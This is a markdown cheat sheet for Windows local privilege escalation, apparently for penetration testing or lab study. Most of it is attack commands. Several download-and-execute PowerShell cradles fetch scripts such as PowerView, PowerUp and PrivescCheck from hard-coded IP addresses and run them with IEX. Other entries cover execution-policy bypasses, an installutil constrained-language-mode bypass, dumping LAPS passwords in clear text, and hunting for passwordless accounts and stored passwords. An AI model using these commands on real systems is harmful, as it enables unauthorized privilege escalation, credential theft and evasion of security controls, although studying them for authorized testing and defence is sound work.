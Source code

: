 # Windows PrivEsc
There are various ways of locally escalating privileges on a Windows box:

– Missing patches (PrintNightmare/Hivenightmare)

– Automated deployment, AutoLogon passwords, passwords in files in clear text

– AlwaysInstallElevated (Any user can run MSI as SYSTEM)

– Misconfigured Services

– DLL Hijacking and more

– NTLM Relaying a.k.a. Won't Fix

First run powerview to get an understanding on machine you are on and the role it plays.
```
(new-object system.net.webclient).downloadstring('http://10.10.16.161/PowerView.ps1') | IEX
```
Check for ms-mcs-admpwd

Check for Passwordless logins
```
get-NetUser -domain DEV.ADMIN.OFFSHORE.COM | Where-Object { $_.userAccountControl -band 0x20 } | Select-Object samaccountname,userAccountControl
```

# LAPSToolkit
Get-LAPSComputers method from LAPSToolkit to list all computers that are set up with LAPS and display the hostname, the clear text password, and the expiration time:

```
PS C:\Tools> Import-Module .\LAPSToolkit.ps1

PS C:\Tools> Get-LAPSComputers
```

Execution policy issues.
```
powershell -ExecutionPolicy Bypass -File script.ps1
```
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```
# Contrained Langauge Bypass. 
Use installutil to bypass .exe restrictions. 
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /logtoconsole=false /U C:\users\Public\bypass-clm.exe
```
# Seatbelt.exe 
```
Seatbelt.exe -group=all -full
```
https://github.com/GhostPack/Seatbelt

# PowerUp.ps1
```
(new-object system.net.webclient).downloadstring('http://192.168.49.77/PowerUp.ps1') | IEX
```
```
Invoke-AllChecks
```
# Enumerate Files For Passwords
- .txt
- .ps1
- config (not just .config but any file that has to do with the application/service it is running)

# WinPeas.exe

# PrivEscCheck
```
(new-object system.net.webclient).downloadstring('http://192.168.45.233/PrivescCheck.ps1') | IEX
```
```
Invoke-PrivescCheck -Extended
```


